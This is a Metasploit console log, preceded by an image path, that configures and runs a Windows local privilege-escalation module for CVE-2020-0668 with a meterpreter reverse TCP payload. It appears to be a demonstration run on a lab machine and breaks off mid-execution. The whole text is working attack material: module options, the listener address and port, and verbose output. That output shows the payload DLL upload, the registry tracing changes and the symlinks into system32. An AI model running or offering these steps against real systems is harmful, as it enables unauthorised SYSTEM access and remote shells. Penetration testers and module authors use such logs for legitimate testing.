   ```
msf5 exploit(windows/local/cve_2020_0668_service_tracing) > set lhost 192.168.135.168
lhost => 192.168.135.168
msf5 exploit(windows/local/cve_2020_0668_service_tracing) > set verbose true
verbose => true
msf5 exploit(windows/local/cve_2020_0668_service_tracing) > set session 1
session => 1
msf5 exploit(windows/local/cve_2020_0668_service_tracing) > show options

Module options (exploit/windows/local/cve_2020_0668_service_tracing):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   EXPLOIT_DIR                             no        The directory to create for mounting (%TEMP%\%RAND% by default).
   OVERWRITE_DLL          false            yes       Overwrite WindowsCreDeviceInfo.dll if it exists (false by default).
   PAYLOAD_UPLOAD_NAME                     no        The filename to use for the payload binary (%RAND% by default).
   PHONEBOOK_UPLOAD_NAME                   no        The name of the phonebook file to trigger RASDIAL (%RAND% by default).
   SESSION                1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf5 exploit(windows/local/cve_2020_0668_service_tracing) > run

[*] Started reverse TCP handler on 192.168.135.168:4444
[*] Build Number = 17134
[*] Attempting to PrivEsc on DESKTOP-D1E425Q via session ID: 1
[*] Payload DLL is 5120 bytes long
[*] Registry hash = [{:key_name=>"HKLM\\SOFTWARE\\Microsoft\\Tracing\\RASTAPI", :value_name=>"EnableFileTracing", :value_type=>"REG_DWORD", :value_value=>1, :delete_on_cleanup=>false}, {:key_name=>"HKLM\\SOFTWARE\\Microsoft\\Tracing\\RASTAPI", :value_name=>"FileDirectory", :value_type=>"REG_EXPAND_SZ", :value_value=>"C:\\Users\\msfuser\\AppData\\Local\\Temp\\jeYpOx", :delete_on_cleanup=>false}, {:key_name=>"HKLM\\SOFTWARE\\Microsoft\\Tracing\\RASTAPI", :value_name=>"MaxFileSize", :value_type=>"REG_DWORD", :value_value=>5119, :delete_on_cleanup=>false}]
[*] Making C:\Users\msfuser\AppData\Local\Temp\jeYpOx on DESKTOP-D1E425Q
[*] Creating C:\Users\msfuser\AppData\Local\Temp\jeYpOx
[*] Creating mountpoint
[+] Successfully opened C:\Users\msfuser\AppData\Local\Temp\jeYpOx
[*] Uploading payload to C:\Users\msfuser\AppData\Local\Temp\FICNArio.dll
[*] Payload md5 = b8341507939ea464f81f0245628e470f
[*] Creating Symlinks
[*] Creating symlink C:\Users\msfuser\AppData\Local\Temp\FICNArio.dll in \RPC Control\RASTAPI.LOG
[*] Collected Symlink Handle 704
[*] Creating symlink C:\Windows\system32\WindowsCoreDeviceInfo.dll in \RPC Control\RASTAPI.OLD
[*] Collected Symlink Handle 688
[*] Writing EnableFileTracing to HKLM\SOFTWARE\Microsoft\Tracing\RASTAPI
  ```